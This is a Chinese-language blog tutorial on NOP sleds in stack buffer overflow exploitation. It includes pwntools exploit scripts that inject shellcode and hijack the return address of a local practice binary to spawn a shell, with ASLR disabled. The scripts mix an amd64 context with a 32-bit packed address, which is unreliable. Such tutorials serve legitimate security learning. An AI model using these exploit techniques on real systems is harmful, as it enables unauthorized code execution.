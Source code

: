 ```yaml
---
title: NOPs
subtitle: 更可靠的 shellcode
date: 2023-08-08T14:29:14+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: false
math: true
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


由于在调试工具里得到的返回地址和正常运行时并不一致（这是运行时环境变量等因素有所不同造成的），
所以这种情况下我们只能得到大致但不确切的 shellcode 起始地址，解决办法是在溢出 Padding 前面填充
若干长度的 NOP 。

NOP，无操作（**N**o **OP**eration）指令的作用正如其名：什么也不做。所以在运行到 NOP 指令的时候
只会使程序计数器加一，而不会发生其它的事情。这是一种可以破解栈随机化的缓冲区溢出攻击方式。
攻击者通过填充字符串注入攻击代码，在实际的攻击代码前注入很长的 NOP 指令序列，只要程序的
控制流指向该序列任意一处，都可以无副作用地跳转到 shellcode 的起始处，这允许我们有更大的
误差范围，因为向前或向后移动几个字节不会影响程序的正常运行。这与直接运行 shellcode 具有
相同的效果。这种 NOP Padding 通常被称为 NOP Slide 或 NOP Sled（俗称「滑雪橇」），因为 EIP
本质上是沿着它们 Slide 的。这样我们就可以通过增加 NOP 填充来试验 shellcode 的起始地址。NOP Sled
可以帮助攻击者提高访问到自己的攻击代码的概率。

[地址空间配置随机化（ASLR）](https://zh.wikipedia.org/wiki/%E4%BD%8D%E5%9D%80%E7%A9%BA%E9%96%93%E9%85%8D%E7%BD%AE%E9%9A%A8%E6%A9%9F%E8%BC%89%E5%85%A5) 指程序运行时栈的起始地址是随机的，所以程序中存放各函数返回地址
的地址也会发生对应的改变。可防止运行相同程序的相同系统因易预测栈地址而被攻击。

由于栈地址在一定范围的随机性，攻击者不能够知道攻击代码注入的地址，而要执行攻击代码需要将函数
的返回地址更改为攻击代码的地址（可以通过缓冲区溢出的方式篡改函数的返回地址）。所以，只能在一
定范围内（栈随机导致攻击代码地址一定范围内随机）枚举攻击代码的地址（有依据的猜）。

{{<admonition type="info" title="例子">}}

为了尝试破解 $2^{23}$ 的随机化，则需要枚举 $2^{23}$ 个返回地址。而使用 NOP Sled 的方式，
若枚举一个 $2^{8}$ Bytes 的 NOP sled，则只需要枚举 $2^{23} / (2^{8} + 1)$ 个返回地址
即可，因为每次枚举出的地址只要是 $2^{8}$ 中的之一就可以。（攻击代码本身有一个起始地址，
所以为 $255 + 1$）

{{</admonition>}}

不用 NOP Sled，函数返回地址 ---> 攻击代码</br>
使用 NOP Sled，函数返回地址 ---> NOP 序列（顺序执行）直到攻击代码地址

在 intel x86 汇编中，NOP 指令是 `\x90` 。

<!--more-->

NOP 指令是 `XCHG EAX, EAX` 的别名（32 bit 系统中），它实际上什么也不做。你可以在这个
[问题](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions) 上阅读更多相关信息。

## 0x01 更新 EXP

现在可以对我们的 EXP 进行一些细微的更改，以完成两件事：

- 添加大量 NOP Padding
- 调整我们的返回地址以指向 NOP 的中间而不是缓冲区的开头

{{<admonition type="warning">}}

确保 ASLR 仍处于禁用状态。你可能需要重新调整之前的 EXP，因为缓冲区位置可能会有所不同。

{{</admonition>}}

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

# 构建 NOPs
payload = b'\x90' * 240
# 构建 shellcode
payload += asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 缓冲区地址 + 一半 NOPs 长度
payload += p32(0xffffd664 + 120)

p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

值得一提的是：带有 NOP 的 shellcode 并不是万无一失的。如果出现用 NOP Sled 造成的
意外错误，但 shellcode 在使用 NOP Sled 之前可以正常工作，请尝试减少 NOP Sled 的
长度，因为它可能会篡改栈上的其它内容。

{{</admonition>}}

注意：NOP 在某些架构中不是 `\x90` 。如果你需要其他架构的 NOP，可以使用 pwntools：

```python
nop = asm(shellcraft.nop())
```

## 0x02 最终 EXP

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

# 构建 NOPs
payload = asm(shellcraft.nop()) * 240
# 构建 shellcode
payload += asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 缓冲区地址 + 一半 NOPs 长度
payload += p32(0xffffd664 + 120)

p.sendline(payload)

p.interactive()
```
